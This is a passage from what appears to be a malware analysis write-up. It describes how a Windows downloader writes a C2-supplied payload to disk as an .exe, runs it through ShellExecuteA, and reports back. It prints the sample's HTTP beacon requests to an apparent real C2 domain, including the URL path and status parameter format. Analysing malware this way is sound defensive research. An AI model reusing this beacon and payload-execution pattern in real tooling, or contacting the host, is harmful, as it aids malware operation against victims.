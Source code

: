 Once the directory is created, it will concatenate the payload name with the extension `.exe`.  After this, it will write the first byte `M` manually, then write the rest of the payload sent from the C2 server to disk, ignoring the first 0xf65 bytes of data sent.

It will then make the following request to let the C2 server know the payload is being executed.

```http
GET /VcvNbtgRrPopqSD/SzWvcxuer/sDeRcEwwQaAsSN.php?txt=DN-SZxxZpayload.vbsZxxZMALWARE-PCmalware HTTP/1.1
Host:subscribe.tomcruefrshsvc.com
Connection: close
```

Once this has been sent to the C2 server, it will finally execute the payload using *[shell32.ShellExecuteA](https://docs.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecutea)*.

![execute-payload](/images/8a97eaae60c7df18708323a91a1e8137088eb958336f83c25d41989064d0787e.png)
*Figure 7: Executing Payload with [shell32.ShellExecuteA](https://docs.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecutea)*

After the payload has been executed, it will check to see if the processes was created successfully. This feature of course has timing issues for additional payloads sent by the C2 server that do not run in an infinite loop. 😅

If the payload process is running it will send the following request to the C2 server.

```http
GET /VcvNbtgRrPopqSD/SzWvcxuer/sDeRcEwwQaAsSN.php?txt=SZxxZpayloadZxxZMALWARE-PCmalware HTTP/1.1
Host:subscribe.tomcruefrshsvc.com
Connection: close
```

If the payload process is not running, it will send the following request to the C2 server.

```http
GET /VcvNbtgRrPopqSD/SzWvcxuer/sDeRcEwwQaAsSN.php?txt=RN_EZxxZpayloadZxxZMALWARE-PCmalware HTTP/1.1
Host:subscribe.tomcruefrshsvc.com
Connection: close
```

